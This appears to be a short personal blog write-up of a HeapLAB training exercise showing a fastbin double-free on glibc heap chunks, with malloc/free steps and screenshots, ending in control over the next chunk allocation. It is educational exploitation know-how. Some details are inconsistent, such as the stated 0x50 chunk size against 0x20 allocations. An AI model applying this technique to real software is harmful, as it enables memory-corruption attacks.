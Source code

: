 ```yaml
---
layout: post
title: "Fastbin with Use-After-Free"
subtitle: "Bypass fake chunk size."
date: 2016-05-26 06:00
author: "Ivan Medina"
header-img: "https://raw.githubusercontent.com/ivanmedina/Pwning/master/HEAP/HeapLAB/fastbin_dup/assets/Imagen2.png"
cdn: 'header-on'
tags: [ pwn, heap, uaf, bypass ]
---
```

## Fastbin with Use-After-Free
*****************************************
1.- Request two 0x50 size chunk
```
chunk_A = malloc(24, b"A"*24)
chunk_B = malloc(24, b"B"*24)
```
![imagen1.png](https://raw.githubusercontent.com/ivanmedina/Pwning/master/HEAP/HeapLAB/fastbin_dup/assets/Imagen1.png)

2.- Free chunk A
```
free(chunk_A)
```
![imagen2.png](https://raw.githubusercontent.com/ivanmedina/Pwning/master/HEAP/HeapLAB/fastbin_dup/assets/Imagen2.png)

3.- Free chunk B
```
free(chunk_B)
```
![imagen3.png](https://raw.githubusercontent.com/ivanmedina/Pwning/master/HEAP/HeapLAB/fastbin_dup/assets/Imagen3.png)

4.- Free chunk A
```
free(chunk_A)
```
![imagen4.png](https://raw.githubusercontent.com/ivanmedina/Pwning/master/HEAP/HeapLAB/fastbin_dup/assets/Imagen4.png)

5.- malloc(24,b'C'*24)
```
malloc(24,b'C'*24)
```
![imagen5.png](https://raw.githubusercontent.com/ivanmedina/Pwning/master/HEAP/HeapLAB/fastbin_dup/assets/Imagen5.png)

6.- There are the CCCCCCC… where before was the 7020 pointer :O, so where will do now the Ds malloc?
```
malloc(24,b'D'*24)
```
![imagen6.png](https://raw.githubusercontent.com/ivanmedina/Pwning/master/HEAP/HeapLAB/fastbin_dup/assets/Imagen6.png)

7.- Yes, in the next chunk linked in the 0x20 fastbin list...
So now we will send some EEEE's
```
malloc(24,b'E'*24)
```
![imagen7.png](https://raw.githubusercontent.com/ivanmedina/Pwning/master/HEAP/HeapLAB/fastbin_dup/assets/Imagen7.png)

And now we can note that we controll where the next 0x20 fastbin will be allocated.

## References

Max Kamper, Linux Heap Exploitation - Part 1, Udemy 3(9-11)